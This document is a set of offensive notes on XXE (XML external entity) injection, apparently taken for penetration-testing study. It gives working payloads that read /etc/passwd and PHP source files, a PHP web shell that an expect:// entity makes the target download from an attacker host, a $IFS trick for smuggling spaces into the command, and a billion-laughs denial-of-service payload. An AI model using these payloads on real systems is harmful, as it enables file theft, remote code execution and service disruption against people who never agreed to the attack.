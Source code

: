 ## Local File Disclosure

1. We must find web pages that accept an XML user input.
	1. Intercept the HTTP request with Burp to see if it shows XML
2. If application prints the inputted data to the screen and is using outdated XML libraries, or does not apply filters or sanitization, it could be vulnerable to local file disclosure.
3. Input a new entity right after the XML Declaration. Reference it in the XML doc:
```shell-session
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

```shell-session
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
<name>bruh</name>
<tel></tel>
<email>&company;</email>
<message>bruh</message>
</root>
```

If the value is returned in the response (Inlane Freight), we can inject XML code. A non-vulnerable application would return "&company;"

Note: Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

## Reading Sensitive Files
1. Intercept Burp request
2. Add the following under the first xml line:
```shell-session
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

## PHP web application trick

Referencing "file://index.php" may not be used. Instead, we should use the 'php://filter/' wrapper

1. Intercept Burp request
2. Add the following under the first xml line:
```shell-session
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
- This will return a base64 document which we can decode

## Remote Code Execution
- Look for ssh keys
- Hash stealing trick in Windows-based web applications
- PHP://expect filter

1. Fetch a web shell from our python server
```shell-session
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
2. Use XML code to download web shell into remote server
```shell-session
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- We replaced all spaces in the above XML code with $IFS to avoid breaking the XML syntax
- This attack may not work as the expect module is not enabled by default on modern PHP servers

## Other XXE Attacks
- SSRF exploitation
- Denial of Service (DoS)
```shell-session
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
- Does not work on modern web servers (Apache) as they protect against entity self-reference
